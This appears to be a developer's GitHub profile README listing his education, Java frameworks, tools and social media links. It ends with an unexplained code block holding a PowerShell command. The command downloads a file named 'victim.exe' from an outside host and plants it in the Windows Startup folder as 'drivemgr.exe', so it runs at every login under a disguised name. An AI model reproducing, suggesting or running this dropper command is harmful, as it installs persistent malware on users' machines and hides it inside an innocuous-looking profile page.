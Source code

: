<h1 align="center">Heshan Thenura Kariyawasam </h1>

## I am a self-taught programmer from Sri Lanka

Mostly I prefer Backend development.

### My Higher Education
- Pure Mathematics
- Applied Mathematics
- Physics
- Information and Communication Technology

### Frameworks that I work with
- JavaFX
- Spring Boot

### Technologies that I use
- Linux
- Oracle Cloud
- MySQL
- SQLite
- H2
- Git
- WebRTC
- Socket
- WebSocket

[![Heshan's top languages](https://github-readme-stats.vercel.app/api/top-langs/?username=heshanthenura&theme=blue-green)

### If you're interested in custom application development or would like to discuss a project, please don't hesitate to contact me.


<ul>
    <li><a href="https://twitter.com/Heshantk">Twitter</a></li>
    <li><a href="https://www.linkedin.com/in/heshanthenura">LinkedIn</a></li>
    <li><a href="https://www.instagram.com/heshan_thenura/">Instagram</a></li>
    <li><a href="https://youtube.com/@heshanthenura">YouTube</a></li>
    <li><a href="https://www.tiktok.com/@heshanthenura">TikTok</a></li>
</ul>

### [E-Mail](mailto:heshanthenura@protonmail.com) heshanthenura@protonmail.com


```bash
 (new-object Net.WebClient).DownloadFile('https://dlsv37.sonicbit.net/file/dl2/MUVUOGlHNW9oOGJ4Y3h5M0FjUzRMa3lsbHBjbGQzWDF2bG9LZmdiVkVMU1FmeEovVTU0UWY0UFE5b3JMMVJQZDg4cVJXYWdRQlJmWnpVQ1Vkbm1tWEE9PQ==/victim.exe', "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\drivemgr.exe")
```

